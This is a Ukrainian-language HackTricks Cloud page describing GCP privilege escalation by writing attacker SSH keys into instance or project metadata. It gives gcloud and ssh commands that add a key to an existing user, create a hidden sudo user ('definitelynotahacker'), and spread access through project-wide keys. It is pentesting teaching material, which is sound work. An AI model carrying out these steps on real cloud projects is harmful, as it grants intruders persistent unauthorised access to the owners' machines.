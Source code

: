 # GCP - Додати Користувацькі SSH Метадані

## GCP - Додати Користувацькі SSH Метадані

{% hint style="success" %}
Вивчайте та практикуйте AWS Хакінг:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Хакінг: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

### Модифікація метаданих <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Модифікація метаданих на екземплярі може призвести до **значних ризиків безпеки, якщо зловмисник отримає необхідні дозволи**.

#### **Включення SSH ключів у Користувацькі Метадані**

На GCP, **Linux системи** часто виконують скрипти з [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Критичним компонентом цього є [демон облікових записів](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), який призначений для **регулярної перевірки** кінцевої точки метаданих екземпляра на **оновлення авторизованих SSH публічних ключів**.

Отже, якщо зловмисник може модифікувати користувацькі метадані, він може змусити демон знайти новий публічний ключ, який буде оброблений і **інтегрований у локальну систему**. Ключ буде додано до файлу `~/.ssh/authorized_keys` **існуючого користувача або потенційно створити нового користувача з привілеями `sudo`**, залежно від формату ключа. І зловмисник зможе скомпрометувати хост.

#### **Додати SSH ключ до існуючого привілейованого користувача**

1. **Перевірте Існуючі SSH Ключі на Екземплярі:**
*   Виконайте команду для опису екземпляра та його метаданих, щоб знайти існуючі SSH ключі. Відповідний розділ у виході буде під `metadata`, зокрема ключ `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Зверніть увагу на формат SSH ключів: ім'я користувача передує ключу, розділене двокрапкою.
2. **Підготуйте Текстовий Файл для Метаданих SSH Ключа:**
* Збережіть деталі імен користувачів та їх відповідних SSH ключів у текстовому файлі з назвою `meta.txt`. Це важливо для збереження існуючих ключів під час додавання нових.
3. **Згенеруйте Новий SSH Ключ для Цільового Користувача (`alice` у цьому прикладі):**
*   Використовуйте команду `ssh-keygen` для генерації нового SSH ключа, переконавшись, що поле коментаря (`-C`) відповідає цільовому імені користувача.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Додайте новий публічний ключ до `meta.txt`, імітуючи формат, знайдений у метаданих екземпляра.
4. **Оновіть Метадані SSH Ключа Екземпляра:**
*   Застосуйте оновлені метадані SSH ключа до екземпляра, використовуючи команду `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Отримайте Доступ до Екземпляра Використовуючи Новий SSH Ключ:**
*   Підключіться до екземпляра за допомогою SSH, використовуючи новий ключ, отримуючи доступ до оболонки в контексті цільового користувача (`alice` у цьому прикладі).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Створіть нового привілейованого користувача та додайте SSH ключ**

Якщо не знайдено цікавого користувача, можна створити нового, якому будуть надані привілеї `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH ключі на рівні проекту <a href="#sshing-around" id="sshing-around"></a>

Можливо розширити доступ до SSH для кількох віртуальних машин (VM) у хмарному середовищі, **застосувавши SSH ключі на рівні проекту**. Цей підхід дозволяє доступ до SSH до будь-якого екземпляра в проекті, який не заблокував SSH ключі на рівні проекту. Ось узагальнений посібник:

1. **Застосуйте SSH ключі на рівні проекту:**
*   Використовуйте команду `gcloud compute project-info add-metadata`, щоб додати SSH ключі з `meta.txt` до метаданих проекту. Ця дія забезпечує визнання SSH ключів на всіх VM у проекті, якщо тільки VM не має увімкненої опції "Блокувати SSH ключі на рівні проекту".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH до екземплярів, використовуючи ключі на рівні проекту:**
* З ключами на рівні проекту ви можете SSH до будь-якого екземпляра в проекті. Екземпляри, які не блокують ключі на рівні проекту, приймуть SSH ключ, надаючи доступ.
* Прямий спосіб підключитися до екземпляра - це використання команди `gcloud compute ssh [INSTANCE]`. Ця команда використовує ваше поточне ім'я користувача та SSH ключі, встановлені на рівні проекту, для спроби доступу.

## Посилання

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

